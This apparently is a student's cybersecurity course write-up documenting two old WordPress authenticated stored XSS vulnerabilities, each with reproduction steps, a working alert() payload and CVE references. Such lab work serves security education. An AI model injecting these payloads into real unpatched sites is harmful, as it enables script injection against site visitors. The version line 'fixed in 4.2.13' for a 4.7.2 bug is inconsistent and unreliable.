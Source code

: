 # CodePath Cybersecurity - week 7
### Exploit 1: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
_CVE-2017-6817_  
_Affected versions 4.0 - 4.7.2, fixed in 4.2.13_  

#### Steps
- Create a new Post
- Switch from Visual editing mode to Text (HTML) editing mode
- Insert the malicious YouTube embed shortcode

`[embed src='https://www.youtube.com/embed/dQw4w9WgXcQ\x3csvg onload=alert("exploit!")\x3e'][/embed]`

#### References
- https://wpvulndb.com/vulnerabilities/8768
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
- https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
- https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
- https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html

#### Walkthrough
![Walkthrough exploit 1](https://i.imgur.com/LqaLZgY.gif)

### Exploit 2: Authenticated Stored Cross-Site Scripting (XSS)
_CVE-2015-5622_  
_CVE-2015-5623_  
_Affected versions 4.0 - 4.2.2, fixed in 4.2.3_  

#### Steps
- Create a new Post  
- Switch from Visual editing mode to Text (HTML) editing mode
- Insert the malicious a href code

`<a href="[caption code=">]</a><a title=" onmouseover=alert('exploit!')  ">link</a>`

#### References
- https://wpvulndb.com/vulnerabilities/8111
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623
- https://wordpress.org/news/2015/07/wordpress-4-2-3/
- https://twitter.com/klikkioy/status/624264122570526720
- https://klikki.fi/adv/wordpress3.html
 
#### Walkthrough
![Walkthrough exploit 2](https://i.imgur.com/4nuw80g.gif)